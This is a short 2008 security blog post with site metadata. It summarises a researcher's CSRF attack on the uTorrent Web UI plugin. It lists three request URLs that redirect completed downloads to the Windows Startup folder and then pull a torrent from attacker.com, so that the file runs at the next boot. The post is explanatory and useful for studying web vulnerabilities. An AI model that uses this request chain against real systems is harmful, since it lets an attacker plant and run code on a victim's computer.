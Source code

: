 ```yaml
---
title: Own a box via CSRF
author: rd
excerpt: |
  |
    You get bored of CSRF issues every day? Now this is one is a bit more interesting
layout: post
shorturls:
  - 'a:4:{s:9:"permalink";s:54:"https://www.vnsecurity.net/2008/05/own-a-box-via-csrf/";s:7:"tinyurl";s:26:"http://tinyurl.com/y85vhb2";s:4:"isgd";s:18:"http://is.gd/aOtiy";s:5:"bitly";s:20:"http://bit.ly/7yIvLT";}'
tweetcount:
  - 1
twittercomments:
  - 'a:1:{i:10730529254;s:7:"retweet";}'
tweetbackscheck:
  - 1408359013
category:
  - tutorials
---
```

Rob Carter has posted a blog on how to [pwn a box via a pure CSRF bug][1] of a uTorrent plugin. When a user installs the uTorrent Web UI plugin, the plugin starts a locally running web server on your machine. Basically, his CSRF exploit force uTorrent to move completed downloads to an arbitrary directory on their system, download arbitrary torrents, and completely own their box. </p> 

*   The first CSRF to turn on the “Move completed downloads” option on the uTorrent Web UI. http://localhost:14774/gui/?action=setsetting&s=dir\_completed\_download_flag&v=1 

*   The second CSRF to change the path of where the completed torrent download is placed. For example:</p> 
    http://localhost:14774/gui/?action=setsetting&s=dir\_completed\_download&v=C:
    
    Documents%20and%20SettingsAll%20UsersStart%20MenuProgramsStartup </li> </ul> 
    *   The last CSRF is to force the victim to download a torrent which points to an attacker controlled file. Once the file is downloaded via torrent, uTorrent places the files into startup folder and automatically run the file in the next windows boot.</p> 
        http://localhost:14774/gui/?action=add-url&s=http://www.attacker.com/file.torrent

 [1]: http://r00tin.blogspot.com/2008/04/utorrent-pwn3d.html